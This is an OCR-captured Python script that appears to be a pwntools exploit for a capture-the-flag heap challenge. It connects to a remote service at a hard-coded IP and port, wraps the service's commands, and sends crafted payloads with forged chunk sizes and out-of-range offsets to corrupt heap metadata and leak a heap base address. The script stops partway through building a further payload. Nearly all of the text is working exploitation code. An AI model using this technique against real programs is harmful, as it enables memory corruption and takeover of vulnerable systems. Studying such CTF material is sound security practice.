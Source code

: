 ```python
context.terminal = ['tmux', 'splitw', '-h']

p2 = remote('16.184.29.60', 1337)
port = int(p2.recvline().split(b' ')[0])

if args.remote:
    p = remote("16.184.29.60", port)
else:
    p = process([binary, str(port)])
    if args.gdb:
        gdb.attach(p, '\n'.join(gdb_cmds))
l = ELF('./libc.so.6')

#p.interactive()

def recv_data(idx : int, startpoint : int, sz : int, dt : bytes):
    p.sendafter(b'data: ', p16(1) + p16(idx))
    p.send(p32(startpoint) + p32(sz))
    p.send(dt)

def set_info(idx : int, sz : int, dt : bytes):
    p.sendafter(b'data: ', p16(256) + p16(idx))
    p.send(p32(0) + p32(sz))    
    p.send(dt)

def clear_data(idx : int):
    p.sendafter(b'data: ', p16(16) + p16(idx))
    p.send(p32(0) + p32(0))

def get_info(idx : int):
    p.sendafter(b'data: ', p16(4096) + p16(idx))
    p.send(p32(0) + p32(0))
    return p.recvn(0x30)

recv_data(0, 0, 0, b'\x0a')
set_info(0, 0x20, b'\x00' * 0x20)
recv_data(1, 0, 0, b'\x00')
payload = p64(0x10010 + 0x40 + 0x20 + 0x40 + 1) + b'\x00' * 0x38
payload += p64(0x10011) + b'\x00' * 0x10008
payload += p64(0xcf1)
recv_data(0, 0x10028, -0x10028 & 0xffffffff, payload + b'\x00' * (0x10d38 - len(payload)))
sleep(1)
p.send(b'\x00')
set_info(1, 0x20, b'\x00' * 0x20)
clear_data(1)
clear_data(0)
recv_data(2, 0, 0, b'a')
set_info(0, 0, b'a')
set_info(2, 0, b'a')
set_info(1, 0, b'a')
clear_data(1)
recv_data(1, 0xffc8, 1, b'\x21')
recv_data(1, 0xffe8, 1, b'\x41')
heap_base = (u64(get_info(0)[:8]) << 12) - ((0x0000000556f29479 << 12) - 0x556f29459000)
print(hex(heap_base))
set_info(1, 0, b'a')
# payload = p64(0xa01) + b'\x00' * (0xa00 - 8) + p64(0xc91 + 0x40 - 0xa00) 
# recv_data(1, 0x10028, -0x10028 & 0xffffffff, payload + b'\x00' * (0xcc8 - len(payload)))
# sleep(1)
#p.send(b'\x00')
payload = p64(heap_base + 0x102c0 + 0x10) + b'\x00' * 16
payload += p64(0x10011) + b'\x00' * 0x10008
payload += p64(0x21) + p64(heap_base + 0x102c0 + 0x10) + b'\x00' * 16
```